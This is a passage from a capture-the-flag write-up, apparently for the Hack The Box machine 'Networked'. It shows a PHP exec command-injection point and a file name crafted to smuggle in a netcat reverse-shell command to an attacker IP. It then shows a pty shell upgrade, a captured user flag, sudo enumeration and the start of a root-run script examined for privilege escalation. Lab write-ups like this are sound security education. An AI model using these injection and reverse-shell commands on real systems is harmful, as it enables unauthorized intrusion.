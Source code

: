 ```php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

`$value` has to be replaced by a malicious bash command beginning with `;` so that we can another command.

```bash
$ cd /var/www/html/uploads/
$ touch '; nc -c bash 10.10.14.7 4444'
```

![guly shell](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/networked/guly-bash.png)

## User (guly)

- Flag:

```bash
python -c "import pty; pty.spawn('/bin/sh');"  
sh-4.2$ cat user.txt
cat user.txt
526cfc2305f17faaacecf212c57d71c5
```

Let's run `sudo -l` with guly:

```bash
$ sudo -l
sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
$ ls -la /usr/local/sbin/changename.sh
-rwxr-xr-x 1 root root 422 Jul  8  2019 /usr/local/sbin/changename.sh
```

Since we only we only can read or execute `changename.sh`, we cannot replace `changename.sh`'s content by a malicious one.

Let's examine wath's in `changename.sh`:

```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
```